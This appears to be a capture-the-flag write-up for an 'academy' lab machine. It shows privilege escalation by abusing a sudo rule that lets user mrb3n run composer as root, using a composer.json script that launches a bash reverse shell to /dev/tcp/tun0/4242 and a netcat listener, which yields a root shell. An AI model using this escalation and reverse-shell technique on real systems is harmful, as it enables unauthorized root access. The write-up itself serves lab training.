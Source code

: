 # Local Enumeration

* check sudo rights `sudo -l`

      User mrb3n may run the following commands on academy:
          (ALL) /usr/bin/composer

* user mrb3n run `composer` as root

* **Composer** is a tool for dependency management in PHP. It allows you to declare the libraries your project depends on and it will manage (install/update) them for you.

    * First thing first find the [composer documentation](https://getcomposer.org/doc/00-intro.md)
    * form the doc i found that the [composer run scripts](https://getcomposer.org/doc/articles/scripts.md)

    **Note :** Only scripts defined in the composer.json are executed .


## attack surface

* Create a `composer.json` file and inside that file specify `reverse shell` script
    * in the script doc i found composer.json template best for [custom script execution](https://getcomposer.org/doc/articles/scripts.md#writing-custom-commands)
* run composer and execute the script

# Root Exploit

**First**, create `composer.json` file
```
{
    "scripts": {
        "hack": [
            "bash shell.sh"
        ]
    }
}
```

**Second**, create `shell.sh` script
```
bash -i >& /dev/tcp/tun0/4242 0>&1
```

**Third**, open nc port
```
nc -nvlp 4242
```

**Fourth**, run composer 
```
mrb3n@academy:~$ sudo composer hack
```

*shell pops in netcat immediately*

```
root@academy:~# cat root.txt
cat root.txt
29a4ab3f************************
```